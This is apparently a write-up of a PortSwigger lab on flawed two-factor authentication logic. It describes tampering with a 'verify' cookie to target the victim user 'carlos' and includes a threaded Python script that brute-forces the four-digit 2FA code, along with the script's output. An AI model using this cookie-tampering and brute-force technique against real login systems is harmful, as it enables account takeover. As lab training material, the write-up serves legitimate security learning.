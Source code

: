 # 2FA broken logic | Dec 22, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-broken-logic), you'll learn: 2FA broken logic! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab's two-factor authentication is vulnerable due to its flawed logic. To solve the lab, access Carlos's account page.

- Your credentials: `wiener:peter`
- Victim's username: `carlos`

You also have access to the email server to receive your 2FA verification code.

## Exploitation

**Login page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-8/images/Pasted%20image%2020221222023039.png)

**Let's try to login as user `wiener`, and intercept all requests via Burp Suite:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-8/images/Pasted%20image%2020221222023628.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-8/images/Pasted%20image%2020221222023649.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-8/images/Pasted%20image%2020221222023712.png)

When we clicked the `Log in` button, **it'll send a POST request to `/login`, with parameter `username` and `password`.**

**After the POST request is sent, the application will set a new cookie for us: `verify=<username>`.**

Hmm... **What if I change the `verify` cookie to another users**? Like `carlos`.

**Let's go to the `Email client` to get the security code:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-8/images/Pasted%20image%2020221222023956.png)

- Security code: `0267`

**Then send the security code and intercept the request via Burp Suite:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-8/images/Pasted%20image%2020221222024038.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-8/images/Pasted%20image%2020221222024047.png)

**Let's change the `verify` value to `carlos`, and forward the request!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-8/images/Pasted%20image%2020221222024111.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-8/images/Pasted%20image%2020221222024139.png)

Hmm... `Incorrect security code`.

Looks like we need to **brute force the security code**!

**To do so, I'll write a python script:**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep

def sendRequest(url, cookie, number):
    loginData = {
        'mfa-code': number
    }

    # Display current number and use \r to clear previous line
    print(f'[*] Trying number: {number}', end='\r')

    loginRequestText = requests.post(url, cookies=cookie, data=loginData).text

    if 'Incorrect security code' not in loginRequestText:
        print(f'[+] Found security code: {number}')

def main():
    url = 'https://0ab100fb0332774dc02726db00f20057.web-security-academy.net/login2'
    cookie = {
        'session': '2cK9ym9I9zf0e0p9IECgOqDGUoJfnYT4',
        'verify': 'carlos'
    }

    # Generate number 0000 to 9999 into a list
    listNumbers = [f'{i:04d}' for i in range(10000)]
    
    for number in listNumbers:
        thread = Thread(target=sendRequest, args=(url, cookie, number))
        thread.start()

        # You can adjust how fast of each connection. 0.05s is recommended.
        sleep(0.05)

if __name__ == '__main__':
    main()
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Authentication]
└─# python3 enum_2fa_code.py
[+] Found security code: 1814
```

- Found user `carlos` security code: 1814

**Let's login as `carlos`!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-8/images/Pasted%20image%2020221222031030.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Authentication/Auth-8/images/Pasted%20image%2020221222031040.png)

I'm user `carlos`!

# What we've learned:

1. 2FA broken logic